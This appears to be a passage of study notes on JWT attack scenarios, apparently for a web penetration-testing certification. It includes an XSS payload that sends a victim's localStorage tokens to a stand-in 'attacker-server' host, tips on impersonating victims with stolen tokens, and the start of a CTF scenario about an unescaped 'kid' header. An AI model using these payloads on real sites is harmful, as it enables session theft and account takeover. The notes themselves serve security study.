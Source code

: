 ### JWT Attack Scenario 1
brute-forcing/guessing the secret used to sign a token:

![Alt text](/assets/images/posts/ewptx/71.png){: .align-center}

### JWT Attack Scenario 2
When attacking authentication through an XSS vuln, we usually try to capture a victims cookie as follows:
```html
<script>alert(document.cookie)</script>
```

When JWT is employed an localStorage is used, we can attack authentication through XSS using JSON.stringify:
```html
 <img src='https://attacker-server/yikes?jwt='+JSON.stringify(localStorage);'--!>
```

> If u obtain an IdToken, u can use it to authenticate and impersonate the victim
> If u obtain an accessToken, u can use it to generate a newIdToken with the help of the authentication endpoint

### JWT Attack Scenario 3
A bitcoin CTF challenge that included JWT:

- uppon successful login, the user is issued a JWT inside a cookie 
- HS256 is used
- A user named admin exists
- One of the field in the JWT header, kid, is used by the server to retrieve the key and verify the signature. The problem is that no proper escaping takes place while doing so.
